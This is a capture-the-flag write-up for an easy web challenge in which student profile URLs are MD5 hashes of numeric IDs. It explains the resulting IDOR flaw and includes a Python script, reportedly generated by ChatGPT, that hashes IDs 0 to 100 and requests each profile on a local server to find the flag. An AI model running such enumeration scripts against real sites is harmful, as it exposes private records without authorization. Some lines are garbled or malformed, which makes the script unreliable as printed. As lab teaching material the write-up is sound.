 ## WRITEUP - OBSCURA
-   Level : **Easy**

-   Category: **Web**

- Description : A university recently launched an online portal to showcase student profiles.
Seven profiles are listed, each with basic information (photo, name, class, graduation date).

However, something seems off... rumors say a hidden profile is guarding a secret.

Can you uncover it?

Note : Flag is in format of FLAG{************}

-------------------------------------------------
## 1 - Reconnaissance

- Visiting the homepage :

![alt text](imageswriteup/1.png)

We see a list of student profiles displayed.

- First reflex: check the page source to see if anything interesting is hidden there. 

![alt text](imageswriteup/2.png)

Unfortunately, nothing useful was found.

-   However, on the homepage, we notice a potential <code>hint</code>:

![alt text](imageswriteup/3.png)

- Let’s take a closer look at one student profile:

![alt text](imageswriteup/4.png)

Hummm... We notice that the URL path contains what looks like a <code>hash.</code>

- Verifying other profiles :

![alt text](imageswriteup/5.png)

Same pattern everywhere. For example, the profile of<code>Imane Z.</code> has ID = 7.un <code>Let’s check the hash on <code> https://crackstation.net/ </code>

![alt text](imageswriteup/6.png)

Bingo 🎯 — it resolves to 7, and the hash is indeed in <code>MD5</code> format.

-   So the application simply takes the numeric ID of the student and transforms it into MD5, then uses it as the profile URL.
-   This is a classic Insecure Direct Object Reference (IDOR) vulnerability.

- What is IDOR?
IDOR (Insecure Direct Object Reference) happens when an application exposes internal identifiers (like IDs, filenames, or keys) in a way that attackers can manipulate to access unauthorized resources.

------------------------------------------
## 2 - Exploitation

- The goal now is to <code>find the correct ID</code> that contains the hidden flag.

- Doing it manually would take too long, so let’s automate it with a Python script.

We asked ChatGPT to generate one:

![alt text](imageswriteup/10.png)

- It gave us :

<pre> 
    import hashlib
    import requests
    import re

    BASE_URL = "http://127.0.0.1:5000"

    Regex pour matcher le flag
    flag_pattern = re.compile(r"FLAG\{.*?\}")

    //Tester les ID de 0 à 100
    for i in range(101):
        # Calcul du hash MD5
        md5_hash = hashlib.md5(str(i).encode()).hexdigest()
        url = f"{BASE_URL}/{md5_hash}"

        try:
            response = requests.get(url, timeout=5)

            if response.status_code == 200:
                match = flag_pattern.search(response.text)
                if match:
                    print(f"[✅] Flag trouvé ! ID: {i} | Hash: {md5_hash}")
                    print(f"[🎯] {match.group()}")
                    break
                else:
                    print(f"[ ] Pas de flag pour ID {i} (hash: {md5_hash})")
            else:
                print(f"[⚠️] Erreur HTTP {response.status_code} pour ID {i} (hash: {md5_hash})")

        except requests.RequestException as e:
            print(f"[⛔] Exception pour ID {i}: {e}")
</pre>

-   Running the script:

![alt text](imageswriteup/11.png)

-    After a few seconds, the script finds the <code>correct ID and hash</code>:

![alt text](imageswriteup/13.png)

The hidden profile is at **ID = 55.**

-   Visiting it confirms the presence of the **FLAG:**

![alt text](imageswriteup/14.png)




